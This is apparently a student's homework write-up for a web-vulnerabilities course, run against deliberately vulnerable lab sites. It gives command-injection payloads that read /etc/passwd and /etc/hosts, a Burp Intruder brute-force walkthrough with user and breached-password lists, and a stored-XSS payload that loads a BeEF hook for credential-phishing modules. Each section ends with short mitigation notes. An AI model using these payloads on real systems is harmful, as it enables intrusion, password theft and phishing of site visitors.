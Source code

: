 ### Week 15 Homework: Web Vulnerabilities and Hardening Homework
To launch the environment, complete the following:


-Launch Vagrant from GitBash or the Mac terminal using the following command: `vagrant up`


-Then, open the command line inside Vagrant and run the following command: `cd ./Documents/web-vulns && docker-compose up`.


-Leave this page open and continue to the next step.


-To access the Replicants website, open a web browser within Vagrant and access the following webpage: http://192.168.13.25/setup.php.


-On the bottom of this page, click Create / Reset Database.


-This will configure the database for the application.


-The message "Setup Successful" at the bottom of the page will indicate that it is complete.


-To log in to the mock Replicants website, access the following webpage: http://192.168.13.25/login.php.


-Log in with the following credentials:


- Username:`admin`


- Password: `password`


Now that you have determined that Replicants new application is vulnerable to command injection, you are tasked with using the `dot-dot-slash` method to design two payloads that will display the contents of the following files:

- `etc/passwd`

`8.8.8.8 && cat ../../../../../etc/passwd`

![cat ../../../../../etc/passwd](https://github.com/liligobellan/Unit-15-HW/blob/main/images15/passwd.png "cat ../../../../../etc/passwd")

- `etc/hosts`

`8.8.8.8 && cat ../../../../../etc/hosts`

![cat ../../../../../etc/hosts](https://github.com/liligobellan/Unit-15-HW/blob/main/images15/hosts%20.png "cat ../../../../../etc/hosts")


For this tasks had to use dot-dot method and use five slashes because there was five directories `/var/www/html/vulerabilities/exec`

*Mitigation Strategies*

- Keep up to date and keep patching the application often. 
- Use Strong Input Validation for Input Passed into Commands.
- Add less privileges to restric access to the web server. 


#### Web Application 2: *A Brute Force to Be Reckoned With*

-Open a browser on Vagrant and navigate to the webpage http://192.168.13.35/install.php.

- click `here` to install and then use the login credenitals:


Login: `bee`


Password: `bug`

To access the application where we will perform our activity, enter in the following URL: http://192.168.13.35/ba_insecure_login_1.php

This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login.
  
  -If the user/password combination is correct, it will return a successful message.

  -If the user/password combination is incorrect, it will return the message, "Invalid credentials."
  
  You've been provided with a list of administrators and the breached passwords:
  
  ### *List of Administrators*
  
        - superman
          loislane
          spiderman
          jennyjones
          tonystark
          timtom
          peterparker
          clarkkent
          michaelsmith
          henryhacker


### *Breached list of Passwords*

       - Up, up and away!
         Avengers Assemble
         Cowabunga! 
         Here I come to Save the Day
         With great power comes great responsibility
         You wouldn’t like me when I’m angry
         Courage is immortal
         I am Iron Man
         His Past. Our future
         Change is coming


-Hint: Refer back to the Burp Intruder activity `10_Brute_Force from Day 3` for guidance.

- Click `Payloads tab`, choose Payload type as `Simple list`
- Add login user ID from List of Administrators file into `Payload set 1`
- Add password from Breached list of Passwords file into `Payload set 2`

After analyzing came across that administrator `tonystark` and the password `I am Iron Man` had successfully logged in output. 

![Success](https://github.com/liligobellan/Unit-15-HW/blob/main/images15/success.png)

*Mitigation Strategies*

- Lock out the accounts from accessing the server after many attempts of incorrect credentals. 
- Make the Root User Inaccessible via SSH.
- Making sure in using strong passwords. 

### Web Application 3: *Where's the BeEF?*

On Vagrant, open a command line and run the following command: `sudo beef`


When prompted for a password, enter `cybersecurity`.


This will kick off the BeEF application and return many details about the application to your terminal.


Along with these details are several URLs that can be used to access to BeEF's User Interface (UI). For example:`UI_URL: http://127.0.0.1:3000/ui/panel`


To access the BeEF GUI, right-click the first URL and select Open Link.

0nce on the webpage enter the credentals: 

- Username: `beef`


- Password: `feeb`

*Task Details*

The page you will test is the Replicants Stored XSS application which was used the first day of this unit: http://192.168.13.25/vulnerabilities/xss_s/

The BeEF hook, which was returned after running the sudo beef command was: http://127.0.0.1:3000/hook.js

The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

When entering the command on the http://192.168.13.25/vulnerabilities/xss_s/, you'll notice that you can't enter it completly. 

Right click on the webpage and select "Inspecting Element"

Edit the textarea maxlength to 100. 

![EDITING](https://github.com/liligobellan/Unit-15-HW/blob/main/images15/editing-maxlength.png)

Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:


Social Engineering >> Pretty Theft

![pretty theft](https://github.com/liligobellan/Unit-15-HW/blob/main/images15/pretty-theft.png)

Social Engineering >> Fake Notification Bar

![FAKEPOPUP](https://github.com/liligobellan/Unit-15-HW/blob/main/images15/fake-popup.png)

*Mitigation Strategies*

- Input validation revolves around the act of ascertaining that the accurate data is being rendered by an application while at the same time blocking malevolent data from causing damage to the web page

- Sanitizing user input is another effective way of prevent XSS attacks. 




